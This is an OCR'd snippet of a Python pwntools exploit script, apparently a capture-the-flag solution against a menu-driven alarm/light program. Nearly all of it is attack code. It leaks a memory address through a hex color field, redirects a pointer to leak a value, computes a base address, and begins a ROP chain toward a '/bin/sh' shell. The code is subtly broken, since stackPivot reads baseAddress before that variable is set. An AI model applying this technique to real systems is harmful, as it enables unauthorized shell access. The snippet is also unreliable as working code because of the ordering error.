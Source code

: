 ```Python
p.readuntil('?')
p.sendline('0')
p.readuntil('Enter Choice:')
p.sendline('4')
p.readuntil('Enter Choice:')
p.sendline('1')
p.readuntil('Enter Choice:')
p.sendline('4')
p.readuntil('Enter Choice:')
p.sendline('1')
p.readuntil('Enter Choice:')
p.sendline('2')
p.readuntil('Enter Choice:')
p.sendline('2')
p.readuntil('Enter favorite number:')
p.sendline('10')
p.readuntil('Enter Choice:')
p.sendline('1')

lightOutput = p.readuntil(".-----------------------------------.")
lightOutput = lightOutput.decode('utf-8', errors='ignore')
m = re.search(r"Color\s+is\s+(#[0-9a-fA-F]{6}(?:[0-9a-fA-F]{2})?)", lightOutput)
lastEightBytes = m.group(1)[1:]

printAlarmPasswordAddress = lastEightBytes[0:5] + "1ab"

p.readuntil('Enter Choice:')
p.sendline('3')
p.readuntil('Enter favorite number:')
p.sendline('10')
p.readuntil('Enter color as hex:')
p.sendline(printAlarmPasswordAddress)
p.readuntil('Enter Choice:')
p.sendline('4')

currentPassword = p.readuntil(".-----------------------------------.")
currentPassword = '0x' + currentPassword.decode('utf-8', 'ignore').split("    ")[1]

currentPassword = int(currentPassword, 16)


manageAlarmAddress = lastEightBytes[0:5] + "1f1"

p.readuntil('Enter Choice:')
p.sendline('3')
p.readuntil('Enter favorite number:')
p.sendline('10')
p.readuntil('Enter color as hex:')
p.sendline(manageAlarmAddress)
p.readuntil('Enter Choice:')
p.sendline('4')

# ROP CHAIN START
# Slide rsp foward:  add rsp, 0x28 ; ret
stackPivot = baseAddress + 0x34ad2
baseAddress = currentPassword - 0x3a030

binShAddress = baseAddress + 0x18cd57

popRdiAddress = baseAddress + 0x000000021102

popRaxAddress = baseAddress + 0x33544
popRsiAddress = baseAddress + 0x202e8
```